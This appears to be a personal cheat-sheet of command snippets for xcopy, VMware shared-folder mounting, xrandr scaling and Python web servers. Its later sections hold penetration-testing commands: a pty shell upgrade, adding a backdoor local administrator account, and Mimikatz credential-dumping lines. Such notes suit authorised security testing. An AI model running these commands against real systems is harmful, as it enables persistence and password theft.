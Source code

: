 ### xcopy syntax ###

```
xcopy "C:\SomeFolderName" "D:\SomeFolderName" /h /i /c /k /e /r /y
```

Copy C:\SomeFolderName to the D drive

/h copies hidden and system files also
/i if destination does not exist and copying more than one file, assume that destination must be a directory
/c continue copying even if error occurs
/k copies attributes
/e copies directories and subdirectories, including empty ones
/r overwrites read-only files
/y suppress prompting to confirm whether you want to overwrite a file
/z Copies over a network in restartable mode.

### Linux VM - Mounting a Windows Share - Script ###
Simple Version:
```
sudo /usr/bin/vmhgfs-fuse .host:/ /mnt/hgfs -o subtype=vmhgfs-fuse,allow_other,nonempty
```
Slightly Better Version:
```
#!/bin/bash

vmware-hgfsclient | while read folder; do
  echo "[i] Mounting ${folder}   (/mnt/hgfs/${folder})"
  mkdir -p "/mnt/hgfs/${folder}"
  umount -f "/mnt/hgfs/${folder}" 2>/dev/null
  vmhgfs-fuse -o allow_other -o auto_unmount ".host:/${folder}" "/mnt/hgfs/${folder}"
done

sleep 2s
```

### Adjusting the Scale ###

Find out the name of the screen 

> xrandr | grep connected | grep -v disconnected | awk '{print $1}'

Zoom in by 20%
> xrandr --output screen-name --scale 0.8x0.8

Zoom out by 20%
> xrandr --output screen-name --scale 1.2x1.2

Reset xrandr
> xrandr --output screen-name --scale 1x1

### Simple Web Servers

>python3 -m http.server

>python -m SimpleHTTPServer 80


### Shell Upgrade!

>python -c "import pty; pty.spawn('/bin/bash')"

>/bin/bash -i


### Post Exploitation

Add new user and add to local admin group

> net user gary password /add

> net localgroup administrators gary /add



## Get Passwords

> privilege::debug

> sekurlsa::logonpasswords

## Set GB keyboard in Linux
> setxkbmap -layout gb
